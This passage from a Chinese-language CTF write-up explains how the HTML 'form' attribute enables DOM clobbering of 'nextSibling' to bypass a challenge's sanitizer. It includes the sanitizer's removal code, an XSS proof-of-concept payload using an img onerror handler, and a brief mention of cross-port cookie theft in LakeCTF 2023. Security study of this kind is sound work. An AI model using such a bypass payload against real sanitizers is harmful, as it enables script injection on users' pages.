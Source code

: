 理所當然地把元素放在 form 裡面，就可以污染 `test.x`。

但其實還有一招是使用 `form` 屬性，就可以把元素放在外面：

``` html
<input form=test name=x>
<form id="test"></form>
```

這一題的 sanitizer 在移除元素時，是這樣做的：

``` js
removeNode = (currentNode) => {
    const parentNode = currentNode.parentNode;
    const childNodes = currentNode.childNodes;

    if (childNodes && parentNode) {
        const childCount = childNodes.length;

        for (let i = childCount - 1; i >= 0; --i) {
            parentNode.insertBefore(
                childNodes[i].cloneNode(),
                currentNode.nextSibling
            );
        }
    }

    currentNode.parentElement.removeChild(currentNode);
}
```

把要刪除的元素底下的 node，都插入到 parent 的 nextSibling 去。

因此，如果 clobber 了 nextSibling，製造出這樣的結構：

``` html
<input form=test name=nextSibling> 
<form id=test>
  <input name=nodeName>
  <img src=x onerror=alert(1)>
</form>
```

就會在移除 `<form>` 時，把底下的節點都插入到 `<input form=test name=nextSibling>` 後面，藉此繞過 sanitizer。

真有趣的題目！雖然知道有 `form` 這個屬性，但還沒想過可以拿來搭配 DOM clobbering。

作者的 writeup：https://twitter.com/kevin_mizu/status/1701922141791211776

## LakeCTF 2023 GeoGuessy

來源是參考這篇 writeup：[XSS, Race Condition, XS-Leaks and CSP & iframe's sandbox bypass - LakeCTF 2023 GeoGuessy](https://www.xanhacks.xyz/p/lakectf2023-geoguessy/)

先來看兩個有趣的 unintended，第一個是利用 cookie 不看 port 的特性，用其他題目的 XSS 來拿到 cookie，不同題目之間如果沒有隔離好就會這樣，例如說 [SekaiCTF 2023 - leakless note](https://blog.maple3142.net/2023/08/27/sekai-ctf-2023-writeups/#leakless-note) 也是。
